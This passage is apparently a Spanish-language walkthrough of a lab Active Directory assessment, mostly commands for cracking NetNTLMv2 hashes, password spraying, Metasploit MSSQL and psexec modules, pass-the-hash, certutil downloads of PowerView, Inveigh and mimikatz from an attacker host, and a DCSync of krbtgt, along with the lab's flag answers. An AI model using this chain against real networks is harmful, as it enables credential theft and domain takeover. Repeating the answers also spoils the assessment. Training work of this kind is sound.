Guardamos algunos de los hash en nuestra maquina atacante con el nombre **hash_ab920**

```
hashcat -m 5600 hash_ab920 /usr/share/wordlists/rockyou.txt
```

* -m 5600: s el identificador específico para los hashes **NetNTLMv2**. Es justo el tipo de hash que captura el **responder**

answer: **weasal**

3. **Submit the contents of the C:\flag.txt file on MS01.**

```
fping -asgq 172.16.7.0/23
```

Con este comando comprobaremos que ip esta disponibles en el rango de la ip 172.16.7.0/23

<p align="center"> 

</p>

Lo guardaremos en un archivo **ips.txt** y realizaremos un nmap a cada ip dada.

```
sudo nmap -v -A -iL ips.txt
```

172.16.7.3 --> **DC01**

<p align="center"> 


</p>

172.16.7.50 --> **MS01**

<p align="center"> 

</p>

172.16.7.60 --> **SQL01**

<p align="center"> 

</p>

172.16.7.240 --> **Nuestra maquina parrot**

<p align="center"> 

</p>

172.16.7.3 --> **DC01**
172.16.7.50 --> **MS01**
172.16.7.60 --> **SQL01**
172.16.7.240 --> **Nuestra maquina parrot**

Como el objetivo de esta pregunta es obtener el flag de **MS01** comprobaremos con que herramienta podemos abrir un servidor remoto

```
crackmapexec smb 172.16.7.50 -u 'ab920' -p 'weasal'
crackmapexec winrm 172.16.7.50 -u 'ab920' -p 'weasal'
```

<p align="center"> 

</p>

Como sale pwn3d cuando usamos la herramienta **winrm** nos intentaremos logear

```
evil-winrm -i 172.16.7.50 -u 'ab920' -p 'weasal'
```

<p align="center"> 

</p>

answer: **aud1t_gr0up_m3mbersh1ps!**

4. **Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.**

```
sudo crackmapexec smb 172.16.7.3 -u 'ab920' -p 'weasal' --users | tee  usernames.txt
```

Con este comando obtenemos todos los usuarios del dominio 172.16.7.3 y lo guardamos en **usernames.txt**

```
cat usernames.txt | cut -d'\' -f2 | awk -F " " '{print $1}' | tee valid_users.txt
```

Hacemos limpieza y guardamos solos los usuarios.

```
wc -l valid_users.txt
```

Tenemos un total de 2904 usuarios.

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users.txt Welcome1
```

El parametro **passwordspray** lo que hace es probar solamente una contraseña que en este caso hemos elegido **Welcome1** para cada usuario recogido en el archivo **valid_users.txt**

<p align="center"> 

</p>

answer: **BR086**

5. **What is this user's password?**

answer: **Welcome1**

6. **Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?**

Hagamos una enumeración de recursos compartidos para identificar cualquier recurso en el que tengamos acceso de lectura.

```
smbmap -u 'br086' -p 'Welcome1' -d INLANEFREIGHT.LOCAL -H 172.16.7.3
```

<p align="center"> 

</p>

Encontramos una carpeta compartida con permiso de lectura llamada **Department Shares**

```
smbmap -u 'br086' -p 'Welcome1' -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R 'Department Shares'
```

<p align="center"> 

</p>

Me llama la atención un archivo llamado **web.config**, Descargamos el archivo.

```
smbmap -u 'br086' -p 'Welcome1' -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R 'Department Shares' -A web.config
```

Visualizando su contenido nos encontramos con unas credenciales.

<p align="center"> 

</p>

answer: **D@ta_bAse_adm1n!**

7. **Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host.**

```
python3 /usr/local/bin/mssqlclient.py inlanefreight/netdb:'D@ta_bAse_adm1n!'@172.16.7.60
```

Usamos este comando para logearnos en mssqclient.py 

```
help
```

<p align="center"> 

</p>

```
EXEC xp_cmdshell 'whoami /priv
```

Con este comando estamos consiguiendo saber que permisos especiales tiene el usuario que esta ejecutando este procesokali

<p align="center"> 

</p>

Si encontramos **`SeImpersonatePrivilege`** en un usuario de base de datos estamos antes una de las vías de escalada de privilegios más famosas y efectivas en Windows. En español, significa **"Privilegio de Suplantación"**.

Este permiso permite a un proceso **suplantar a otro usuario** (generalmente uno con más poder, como `SYSTEM`) para realizar tareas en su nombre.

Originalmente, Windows diseñó este privilegio para que servicios (como SQL Server, IIS o servicios de backup) pudieran manejar peticiones de clientes con la identidad del cliente, pero sin tener que conocer su contraseña.

Sabiendo esto usaremos **metasploit** dentro de la máquina Parrot, con el módulo **windows/mssql/mssql_payload** con el objetivo de obtener acceso con las credenciales del usuario **netdb** 

```
use windows/mssql/mssql_payload
set LHOST 172.16.7.240
set RHOSTS 172.16.7.60
set Username netdb
set Password D@ta_bAse_adm1n!
exploit
```

<p align="center"> 

</p>

Una vez dentro de la sesión de meterpreter lo primero que hay que hacer:

```
getsystem
```

Con este comando cargaremos la shell como administrador

```
shell
powershell
whoami
```

<p align="center"> 

</p>

Al ser usuario de maximo privilegio, podemos leer la flag del administrador 

```
more C:\Users\administrator\Desktop\flag.txt
```

answer: **s3imp3rs0nate_cl@ssic**

8. **Submit the contents of the flag.txt file on the Administrator Desktop on the MS01 host.**

```
load kiwi
lsa_dump_creds
```

Usamos la herramienta `kiwi` porque se usa en la fase de post-explotación, luego usamos `lsa_dump_sam` para los hashes de los usuarios. En este caso estaríamos interesando encontrar el hash NTLM del administrador.

<p align="center"> 

</p>

hash admin NTLM: **bdaffbfe64f1fc646a3353be1c2c3c99**

```
evil-winrm -i 172.16.7.50 -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```

Con solo tener el hash del administrador podemos iniciar sesion en 172.16.7.50 --> **MS01** y obtener el la flag que se encuentra en MS01 

<p align="center"> 

</p>

answer: **exc3ss1ve_adm1n_r1ights!**

9. **Obtain credentials for a user who has GenericAll rights over the Domain Admins group. What's this user's account name?**

En primer lugar debemos de conseguir llegar el archivo powerview.ps1 a la máquina **MS01**. A continuación esta es la ruta que tenemos que seguir.

mi kali --> Parrot (172.16.7.240) --> **MS01** (172.16.7.50)

Lo compartiremos con este comando:

```
python3 -m http.server 80
```

Mi kali: 

<p align="center"> 

</p>

En la maquina Parrot 

<p align="center"> 

</p>

Ese archivo se guardara en la carpeta de **Donwloads**

En la carpeta Donwloads volvemos a repetir el comando.

```
python3 -m http.server 81
```

<p align="center"> 

</p>

En este punto nos vamos a seguir en la sesión de la pregunta anterior, ya que llevando a cabo el ataque me daba muchos problema, por ende lo terminaré usando en el módulo de metasploit **exploit/windows/smb/psexec** que es un clásico en movimiento lateral dentro de Active Directory.

+ **exploit/windows/smb/psexec**: - Se conecta al servicio SMB (puerto 445), sube un pequeño ejecutable al recurso compartido `ADMIN$`, lo registra como un servicio de Windows, lo arranca para obtener una shell (normalmente `SYSTEM`) y, al terminar, lo borra para no dejar rastro.

- **Requisito:** Necesitas credenciales de un usuario que tenga **privilegios de administrador local** en la máquina objetivo.

```
set lhost 172.16.7.240
set rhosts 172.16.7.50
set smbuser administrator
set smbpass 00000000000000000000000000000000:bdaffbfe64f1fc646a3353be1c2c3c9
exploit
```

Curiosidad, ¿sabes porque en el parámetro smbpass ponemos 32 veces el número 0? porque cuando configuras `SMBPass`, Metasploit espera el formato completo: `LM:NT`.

- **Los 32 ceros (`00000000000000000000000000000000`):** Representan un hash **LM vacío** o desactivado. Como los sistemas actuales (Windows 10, Server 2016+, etc.) ya no generan ni aceptan hashes LM por seguridad, se rellenan con ceros para mantener la estructura que el módulo espera.

- **Los dos puntos (`:`):** Es el separador obligatorio entre la parte LM y la parte NT.
 
- **El hash después de los puntos (`bdaff...`):** Es el **hash NT** real. Este es el que importa y el que el servidor Windows validará para dejarte entrar.

<p align="center"> 

</p>

Obtuvimos sesión meterpreter.

```
shell
powershell
```

Nos situamos en la carpeta raiz y creo una carpeta llamada **tools**, una vez dentro usare este comando para traerme powerview.ps1 que se encuentra en parrot. 

```
certutil.exe -urlcache -f http://172.16.7.240:81/powerview.ps1 .\powerview.ps1
Import-Module .\powerview.ps1
Convert-NameToSid "Domain Admins"
```

Importamos el programa, y luego convertimos el **Domains admins** en SID que solo entiende powerview.ps1 para asi filtrar facilmente lo que buscamos. 

```
Convert-NameToSid "Domain Admins"
```

S-1-5-21-3327542485-274640656-2609762496-512

<p align="center"> 

</p>

```
Get-DomainObjectAcl -Identity "S-1-5-21-3327542485-274640656-2609762496-512" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -eq "GenericAll"}
```

Ahora solo buscamos SPN con permiso GenericAll 

<p align="center"> 

</p>

```
Convert-SidtoName "S-1-5-21-3327542485-274640656-2609762496-4611"
```

INLANEFREIGHT\CT059

answer: **CT059**

10. **Crack this user's password hash and submit the cleartext password as your answer.**

Para conseguir el hash del usuario **CT059** es necesario iniciar la sesion con evil-winrm

```
evil-winrm -i 172.16.7.50 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c9
```

Tendremos que usar la herramienta que viene instalado en kali llamada **Invoke-Inveigh.ps1**

Mediante el comando 

```
python3 -m http.server 80
```

<p align="center"> 

</p>

```
wget http://1010.14.77/Invoke-Inveigh.ps1
sudo python3 -m http.server 81
```

En parrot lo descargaremos en la carpeta descarga y luego lo volveremos a compartir a la maquina window 

<p align="center"> 

</p>


```
certutil.exe -urlcache -f http://172.16.7.240:81/Invoke-Inveigh.ps1 .\Invoke-Inveigh.ps1
```

Volviendo a la sesión de window, realizaremos el siguiente comando para descargar el archivo que traemos de parrot en **/tools,** carpeta que nosotros hemos creado en la raiz

<p align="center"> 

</p>

```
Import-Module .\Invoke-Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP 172.16.7.50 -FileOutput Y
```

Parecerá que la hemos liado pero no!. eso va a seguir en segundo plano cogiendo hash de usuarios. Aparecerá solo un archivo **Inveigh-Log.txt**.

<p align="center"> 

</p>

yo lo que hize fue literal eh, salirme de la sesión, iniciar de nuevo el comando evil-winrm, me situo de nuevo en la carpeta **tools** y me encontraré una sorpresa

```
type Inveigh-NTLMv2.txt
```

<p align="center"> 

</p>

BUAFFFFFFFFFFFF, por fin el hash del usuario **CT059**

>CT059::INLANEFREIGHT:677B702EFF15F9CB:44218A785C00B3DEFCCABCB268680F9C:0101000000000000EF5132C9CECDDC01BEE833387622253A0000000002001A0049004E004C0041004E0045004600520045004900470048005400010008004D005300300031000400260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C00030030004D005300300031002E0049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C000500260049004E004C0041004E00450046005200450049004700480054002E004C004F00430041004C0007000800EF5132C9CECDDC0106000400020000000800300030000000000000000000000000200000352BDB2533FA4174537367501FC054DB8BA26F128310875ADB29DE0F9C9673CB0A001000000000000000000000000000000000000900200063006900660073002F003100370032002E00310036002E0037002E0035003000000000000000000000000000

Lo guardo en mi kali con nombre hash_CT059

```
hashcat -m 5600 hash_CT059 /usr/share/wordlists/rockyou.txt
```

<p align="center"> 

</p>

answer: **charlie1**

11. **Submit the contents of the flag.txt file on the Administrator desktop on the DC01 host.**

```
xfreerdp /v:172.16.7.50 /u:CT059 /p:charlie1 /d:inlanefreight.local /dynamic-resolution
```

Esta vez si que usaremos xfreerdp y 100% nos a va funcionar porque repasamos. Tenemos las credenciales totales del usuario **CT059**. Recordemos que este usuario tiene un permiso especial bastante tocho **Generic All**

<p align="center"> 

</p>

```
net group 'Domain Admins' ct059 /add /domain
```

Por tanto, añadimos este usuario al grupo administradores.

```
$cred = New-Object System.Management.Automation.PSCredential("INLANEFREIGHT\CT059", (ConvertTo-SecureString "charlie1" -AsPlainText -Force))
```

Guardamos las credenciales del usuario **ct059** en una variable.

```
Enter-PSSession -ComputerName DC01 -Credential $cred
```

Logramos entrar al dominio DC01. Una vez aquí obtenemos la flag del admin. 

<p align="center"> 

</p>

answer: **acLs_f0r_th3_w1n!** 

12. **Submit the NTLM hash for the KRBTGT account for the target domain after achieving domain compromise.**

Para terminar respondiendo esta pregunta lo que tenemos que hacer en nuestra maquina Parrot es tener un programa: **psexec.py**. Usando esta herramienta teniendo **MUY EN CUENTA** que el usuario CT059 tiene que ser Administrador Local, porque sino, no funcionará

Lo traeremos con la herramienta que hemos usado a lo largo de las actividades anteriores.

```
psexec.py inlanefreight.local/CT059:charlie1@172.16.7.3
```

<p align="center"> 

</p>

```
certutil.exe -urlcache -f http://172.16.7.240:81/mimikatz.exe .\mimikatz.exe 
```

Como estamos ahora en la maquina windows pero siendo la máxima autoridad, y el objetivo es obtener el hash del usuario admin, tendremos que traernos aquí la herramienta **mimikatz**, recordemos que solo funciona si el usuario tiene máximo privilegio, y lo guardamos en la carpeta **tools**

```
.\mimikatz.exe
privilege::debug
lsadump::dcsync /user:inlanefreight\krbtgt
```

<p align="center"> 

</p>

answer: **7eba70412d81c1cd030d72a3e8dbe05f**